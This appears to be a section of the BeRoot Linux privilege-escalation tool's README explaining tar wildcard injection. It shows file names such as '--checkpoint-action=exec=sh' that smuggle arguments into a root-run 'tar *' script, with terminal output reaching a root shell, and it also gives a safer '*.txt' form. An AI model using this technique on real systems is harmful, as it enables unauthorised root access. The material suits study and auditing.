 [](https://github.com/AlessandroZ/BeRoot/tree/master/Linux#wildcards)

If you have never heard about Unix wildcards, I suggest you read this very well explained [article](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt). Using wildcards could lead into code execution if this one is not well called.

For our example, we want to get a shell ("sh") using the **tar** command to execute code on the server. As explained on the GTFOBins section, we could get it doing:

```
tar cf archive.tar * --checkpoint=1 --checkpoint-action=exec=sh
```

We consider a test file which is used to realize an archive of all files present on the directory.

```
user@host:~$ cat test.sh 
tar cf archive.tar * 
```

Here are the steps to exploit this bad configuration:

- open nano (with no arguments)
- write something in it
- save file using **tar** arguments as file names:
    - --checkpoint-action=exec=sh
    - --checkpoint=1

Once created, this is what you will find:

```
user@host:~$ ls -la 
total 32
-rw-r--r-- 1 user user     5 Jan 12 10:34 --checkpoint-action=exec=sh
-rw-r--r-- 1 user user     3 Jan 12 10:33 --checkpoint=1
drwxr-xr-x 2 user user  4096 Jan 12 10:34 .
drwxr-xr-x 7 user user  4096 Jan 12 10:29 ..
-rwxr-xr-x 1 user user    22 Jan 12 10:32 test.sh
```

If this file is executed as root (from cron table, from sudoers, etc.), you should gain root access on the system.

```
user@host:~$ sudo ./test.sh 
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
```

So depending on which binary and how the wildcard are used, the exploitation can be done or not. So on our example, the exploitation would not work anymore if the file would be like this:

```
user@host:~$ cat test.sh 
tar cf archive.tar *.txt
```

Thus, using a tool to detect these misconfigurations is very difficult. A manual analysis should be done to check if it's a false positive or not.
